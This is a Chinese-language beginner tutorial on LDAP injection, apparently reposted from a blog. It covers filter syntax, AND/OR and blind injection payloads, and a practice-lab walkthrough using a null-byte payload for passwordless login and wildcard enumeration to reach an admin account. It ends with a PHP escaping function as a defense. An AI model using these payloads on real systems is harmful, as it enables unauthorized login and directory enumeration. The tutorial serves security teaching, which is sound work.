







LDAP注入入门学习指南
LDAP简介
LDAP(Lightweight Directory Access Protocol)：轻量级目录访问协议，是一种在线目录访问协议。LDAP主要用于目录中资源的搜索和查询，是X.500的一种简便的实现，是运行于TCP/IP之上的协议，端口号为：389， 加密636（SSL）
LDAP结构
LDAP结构
| 属性 | 解释 |
|---|---|
| dn（Distinguished Name） | 一条记录的位置 ，如上图，我们要想描述baby这个节点，描述如下 cn=baby,ou=marketing,ou=pepple,dc=mydomain,dc=org |
| dc(domain compoent) | 一条记录所属区域 域名部分 |
| ou (Organization Unit) | 一条记录所属组织 |
| cn/uid（Common Name） | 一条记录的名字/ID |
| Entry | 条目记录数 |
使用场景
实战中能遇到的主要是 大厂 和 内网
LDAP服务是许多公司和机构日常操作的关键组成部分，目录服务如微软的Microsoft Active Directory，Novell E-Directory和RedHat Directory服务都基于LDAP协议。不过也有其他的应用和服务会利用LDAP服务，简单是说Windows下在Server 服务器上常用AD，在Linux系统常用的服务是Openldap。
LDAP查询语法
search语法：attribute operator value
search filter options:( "&" or "|" (filter1) (filter2) (filter3) ...) ("!" (filter))详细解释
=(等于)
查找”Name”属性为”John”的所有对象:
(Name=John)这条语句会返回”name”为”john”的所有对象，以便强调LDAP语句的开始和结束
&(逻辑与)
如果具有多个条件，并且希望所有条件都能满足，则使用该语法。
(&(Name=John)(live=Dallas))以上语句查询居住在Dallas，并且名为John的所有人员
!(逻辑非)
此操作符用来排除具有特定属性的对象:
(!Name=John)查找所有”name”不为”John”的人员
通配符 *
可以用通配符表示值可以等于任何内容
(title=*)查找具有职务头衔的所有人员
(Name=Jo*)查找所有”Name”以”Jo”开头的人员
最后，举一个较复杂的例子:
(&(Name=John)(|(live=Dallas)(live=Austin)))查找所有居住在Dallas或Austin，并且名为John的人员
LDAP注入
LDAP注入原因
LDAP注入和SQL注入比较类似，不过没有SQL注入中那么多华丽花哨的东西，要简单一些。二者都是没有对用户输入的合法性进行验证，而是直接将数据发送给服务器进行查询，因此攻击者可以注入任意恶意代码。
LDAP注意事项
(&(attribute=value)(injected_filter)) (second_filter)在OpenLDAP中，第二个过滤器会被忽略，只有第一个会被执行，那么类似上面的这种注入就可以成功的。
而在ADAM中，有两个过滤器的查询是不被允许的，那么这种注入是没什么用的。
LDAP过滤器
LDAP 注入的一个重要原因就是过滤器的问题，LDAP 在对目录内容进行搜索的时候，需要过滤器来进行配置
LDAP过滤器定义于RFC4515中，这些过滤器的结构可概括如下：
Fileter = (filtercomp)
Filtercomp = and / or / not / item
And = & filterlist
Or = | filterlist
Not = ! filter
Filterlist = 1*filter
Item = simple / present / substring
Simple = “=” / “~=” / ”>=” / “<=”
Present = attr =*
Substring = attr “=” [initial]*[final]
Initial = assertion value
Final = assertion value所有过滤器必须置于括号中，只有简化的逻辑操作符
(AND、OR、NOT)和关系操作符(=、>=、<=、~=)可用于构造它们。特殊符“*”可用来替换过滤器中的一个或多个字符。
除使用逻辑操作符外，RFC4256还允许使用下面的单独符号作为两个特殊常量：
(&) ->Absolute TRUE
(|) ->Absolute FALSELDAP注入举栗
AND LDAP注入
当后端的代码如下
(&(parameter1=value1)(parameter2=value2))这里value1和value2都会被查询，其中value1和value2是用户可控的，如果过滤不完善，就会存在LDAP注入的可能。
比如一个用户登录的场景，用户输入username和password，应用会构造一个过滤器并发给LDAP服务器进行查询。
(&(username=uname)(password=pwd))当用户输入一个有效的用户名，例如admin，那么就有可能在username字段后面进行注入，从而在不知道密码的情况下进行登陆。
payload: admin)(&))
result: (&(username=admin)(&))(password=123))LDAP服务器只会处理第一个过滤器，而第一个过滤器永真，因此绕过了登录框
OR LDAP注入
当后端代码如下：
(|(parameter1=value1)(parameter2=value2))一个典型的OR LDAP注入的场景就是：
假设一个资源管理器允许用户了解系统中可用的资源(打印机、扫描器、存储系统等)。用于展示可用资源的查询为：
(|(type=Rsc1)(type=Rsc2))Rsc1和Rsc2表示系统中不同种类的资源，例如，Rsc1=printer，Rsc2=scanner用于列出系统中所以可用的打印机和扫描器。
payload: Rsc1=printer)(uid=*)
result: (|(type=printer)(uid=*))(type=scanner))LDAP服务器会响应所有的打印机和用户对象
LDAP盲注
LDAP AND盲注
假设一个Web应用想从一个LDAP目录列出所有可用的Epson打印机，错误信息不会返回，应用发送如下的过滤器：
(&(objectclass=printer)(type=Epson*))使用这个查询，如果有可用的Epson打印机，其图标就会显示给客户端，否则没有图标出现。如果攻击者进行LDAP盲注入攻击*)(objectClass=*))(&(objectClass=void，Web应用会构造如下查询：
(&(objectclass=*)(objectClass=*))(&(objectClass=void)(type=Epson*))仅对第一个过滤器进行处理：
(&(objectclass=*)(objectClass=*))结果是，打印机的图标会一定显示出来，因为该查询永远会有结果，过滤器objectClass=*总是返回一个对象。当图标被显示时响应为真，否则为假。
例如构造如下的注入：
(&(objectClass=*)(objectClass=users))(&(objectClass=foo)(type=Epson*))
(&(objectClass=*)(objectClass=resources))(&(objectClass=foo)(type=Epson*))这种代码注入的设置允许攻击者推测可能存在于LDAP目录服务中不同对象类的值。当响应Web页面至少包含一个打印机图标时，对象类的值就是存在的，另一方面而言，如果对象类的值不存在或没有对它的访问，就不会有图标出现。
LDAP OR盲注
这种情况下，用于推测想要的信息的逻辑是相反的，因为使用的是OR逻辑操作符。接下来使用的是同一个例子，OR环境的注入为：
(|(objectClass=void)(objectClass=void))(&(objectClass=void)(type=Epson*))这个LDAP查询没有从LDAP目录服务获得任何对象，打印机的图标也不会显示给客户端(FALSE)。如果在响应的Web页面中有任何图标，则响应为TRUE。故攻击者可以注入下列LDAP过滤器来收集信息：
(|(objectClass=void)(objectClass=users))(&(objectClass=void)(type=Epson*))
(|(objectClass=void)(objectClass=resources))(&(objectClass=void)(type=Epson*))LDAP靶场
靶场截图

下载地址
链接：https://pan.baidu.com/s/1x50hYn2Q4jIsLHbDnU3CVA
提取码：8yej此处以 LDAP attacks ==> Example 2 为例
利用过程
使用nmap扫描，发现开启389端口
C:\Users\h>nmap -Pn -p- -sV 192.168.30.144 -n -T4
Starting Nmap 7.70 ( https://nmap.org ) at 2019-08-05 15:29 ?D1ú±ê×?ê±??
Nmap scan report for 192.168.30.144
Host is up (0.0034s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.5p1 Debian 6+squeeze3 (protocol 2.0)
80/tcp open http Apache httpd 2.2.16 ((Debian))
389/tcp open ldap OpenLDAP 2.2.X - 2.3.X
MAC Address: 00:0C:29:63:12:24 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.09 seconds访问Example 2，使用burp抓包，提示认证成功

根据第一步扫出来的 389 端口，再加上此处的登陆，猜测他的判定语句为
(&(name=hacker)(passwd=hacker))其中2个 hacker 为我们的可控制变量
一、无密码登录
尝试构造（先正常闭合，然后再截断后面）
(&(name=hacker))%00)(passwd=hacker))服务器在对这个条件判定时，只会执行(&(name=hacker))，永为真，即无密码直接登陆，密码随便输，效果如下：

二、用户遍历
通过上方的结果，我们已经能无密码登陆用户了，但是如果该用户权限不足需要新的用户怎么办呢？
构造语句如下（其中，* 为通配符）
(&(name=h*))%00)(passwd=xxx))
如上图，构造的payload可直接登录hacker账号
尝试对首字母进行遍历，可成功获取 admin 账户

LDAP注入防御
LDAP注入的防御和SQL注入的防御类似，主要是对用户的输入进行合法性验证,只要守好数据的入口和出口，就能有效的防御攻击。
下图包含了LDAP中用到的特殊字符和需要转义处理的字符：

具体实现可参考如下 PHP 代码
function ldapspecialchars($string) {
$sanitized=array('\\' => '\5c',
'*' => '\2a',
'(' => '\28',
')' => '\29',
"\x00" => '\00');
return str_replace(array_keys($sanitized),array_values($sanitized),$string);
}参考文章
LDAP 注入（Injection）入门学习
http://zone.secevery.com/article/976
LDAP安全 (LDAP注入与匿名访问)
https://www.from0to1.me/index.php/archives/71/
LDAP注入漏洞与防御
https://www.jianshu.com/p/d94673be9ed0
LDAP注入与防御剖析
https://wooyun.js.org/drops/LDAP%E6%B3%A8%E5%85%A5%E4%B8%8E%E9%98%B2%E5%BE%A1%E5%89%96%E6%9E%90.html

作者：damit5
参考来源：damit5's blog
本文由公众号HACK学习排版编辑整理